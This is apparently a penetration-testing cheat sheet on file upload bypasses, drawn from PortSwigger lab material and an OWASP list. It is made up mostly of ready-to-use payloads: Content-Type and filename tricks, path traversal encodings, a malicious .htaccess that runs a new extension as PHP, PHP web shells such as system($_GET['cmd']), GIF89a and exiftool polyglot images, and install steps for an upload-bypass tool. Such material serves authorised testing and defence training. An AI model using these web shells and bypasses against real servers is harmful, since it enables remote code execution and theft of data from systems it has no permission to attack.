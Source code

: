 # 🗃 File Upload Bypass

{% embed url="https://portswigger.net/web-security/file-upload" %}
Source
{% endembed %}

![File Upload Bypass Technique](<../../../.gitbook/assets/image (41).png>)

### Web shell Upload via **Content-Type restriction** Bypass

When uploading a .php file;

```bash
# Change :
# Content-Type: application/x-php
# to
# Content-Type: image/jpeg
```

### Web shell upload via path traversal

When uploading a php file; You can upload the file to a different directory with lesser controls (a different directory that's not supposed to contain user-supplied files)

```bash
# Change :
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# to
# Content-Disposition: form-data; name="avatar"; filename="../secrets.php"

# You can encode "../" as :
    %2e%2e%2f
    %252e%252e%252f
    ..%c0%af
    ..%ef%bc%8f
# Then access the file with LFI :
# GET /files/avatars/../secrets.php
```

### Overriding the server configuration

Before uploading a php file;

* Servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.
* Apache servers, for example, will load a directory-specific configuration from a file called **.htaccess** if one is present.

```php
# First, upload a malicious .htaccess :
# Content-Disposition: form-data; name="avatar"; filename=".htaccess"
# Content-Type: text/plain

# AddType application/x-httpd-php .l33t

# Then upload the php file with .l33t extention
# Content-Disposition: form-data; name="avatar"; filename="secrets.l33t"
# Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
# or
<?php system($_GET['cmd']); ?>
```

### Web Shell Upload Bypasses Techniques List

**According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections :**

* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: **exploit%2Ephp**
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like **xC0 x2E, xC4 xAE or xC0 xAE** may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
* **Content-Type** —> Change the parameter in the request header using Burp, ZAP etc.
* Put **server executable extensions :** **.php5**, **.shtml**, **.asa**, **.cert**
* Changing letters to **capital** form : **.aSp**, **.PHp3**
* Using **trailing** **spaces** and/or **dots** at the end of the filename like **.asp.. . .... ...** , **.asp** , **.asp.**
* Use of **semicolon** after the forbidden extension and before the permitted extension : **.asp;.jpg** (_Only in IIS 6 or prior_)
* Upload a file with **2 extensions** —> **file.php.jpg**
* Use of **null** **character**—> **file.asp%00.jpg**
* Create a file with a **forbidden** **extension** —> **file.asp:.jpg** or **file.asp::$data**
* <mark style="color:red;">**ALSO : Combination of the above**</mark>

### Remote Code Execution via Polyglot web shell upload

In order to upload a php file where the file verification is done on the server side (checking if it is really a IMAGE file), we can **disguise a php file** **as an image file.**

When uploading a php file :

```php
# You can add :
GIF89a; // at the beginning of the php file or in the burp request

# Burp request
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# Content-Type: application/x-php

# GIF89a at the beginning of the php command
GIF89a;<?php echo file_get_contents('/home/carlos/secret'); ?>
# OR
GIF89a;<?php system($_GET['cmd']); ?>
```

![PHP file disguised as an GIF file](<../../../.gitbook/assets/image (6) (1).png>)

or, Generate a polyglot payload using **exiftool :**

```bash
# example 1
exiftool -Comment="<?php echo 'START ' . 
file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

# example 2
exiftool -Comment="<?php echo 'START ' . 
system($_GET['cmd']); . ' END'; ?>" $input.jpg -o polyglot.php
```

## upload\_bypass

> File upload restrictions bypass by using different bug bounty techniques! Tool must be running with all its assets!

{% embed url="https://github.com/sAjibuu/upload_bypass" %}

### Install

```bash
git clone https://github.com/sAjibuu/upload_bypass.git
cd upload_bypass/
pip3 install -r requirements.txt

python3 ext_bypass.py -u $url -e $extension-file -a $allowed-extension -s $success-msg --location $path-of-uploaded-file
```

### PoC

{% embed url="https://www.youtube.com/watch?v=quFoDysbDto" %}
